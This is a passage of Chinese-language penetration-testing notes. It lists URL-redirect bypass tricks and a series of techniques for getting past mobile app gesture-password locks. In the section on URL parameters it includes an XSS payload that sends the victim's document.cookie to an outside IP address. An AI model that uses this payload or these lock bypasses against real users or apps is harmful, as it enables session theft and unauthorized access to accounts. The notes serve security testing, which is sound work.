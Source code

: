 **0x08  利用超链接绕过可信站点限制**

302跳转，百度收录的网站都可以跳转

 

**0x09  POST参数中的URL跳转**

上传图片的时候修改图片url，可以改成xss <img src=x onerror=window.open(`http://134.175.33.164:1234/?${document.cookie}`)>

 

**0x10  利用#号绕过**

<http://www.aaa.com/acb?Url=http://test.com#login.aaa.com>

 

当你输入账号和密码后点击登陆按钮后，就会触发跳转

 

# APP手势密码绕过思路总结

**0x01   利用APP广告绕过**

加载广告返回一下，可能回绕过手势密码

 

**0x02   利用多重启动绕过**

正常启动，需要手势密码，然而重新在应用商店再打开APP如果验证不当，可以导致直接绕过手势密码

 

**0x03   利用退出绕过&爆破**

限制错误次数为5次，而这时这个超过次数的信息可能会弹出框来提醒，这时候不要点击，清理后台的APP，重新打开APP，如果验证没做好的话，又有5次寄回输入手势密码

 

**0x04   利用清理不当绕过**

手势密码 -> 本地信息，登录信息 -> 数据库信息。清理掉文本信息，就是清楚了手势密码，登录状态保持，可以绕过。

 

**0x05   利用显示不当绕过**

一些APP当你启动APP的时候，它会在短时间内进入到或者说可以点击到APP内的某些功能，此时你只要一直点击这个页面，只要够快，就可以绕过手势密码，达到这个功能界面。

 

**0x06   利用APP自带提示绕过**

一些APP会自带提示，比如在状态栏内是不是推送一些信息，如果验证不当，就可以直接绕过手势密码，直接进入到主页面。

 

**0x07   利用快捷发送绕过**

这个我从来就没遇到过，APP手势密码验证界面会出现设置按钮，直接设置没有加以验证从而绕过。

 

**0x08   利用清理缺陷绕过**

跟刚刚那个说的很像，也是手势密码跟账户信息储存在不同处，而追后只清理掉手势密码没清理掉登录信息的问题，在需要手势密码验证的界面点击忘记手势密码，此时会跳转到登录界面，直接返回到桌面，清理掉后台运行的APP，再次打开就直接进入到主界面，并且是登录状态。
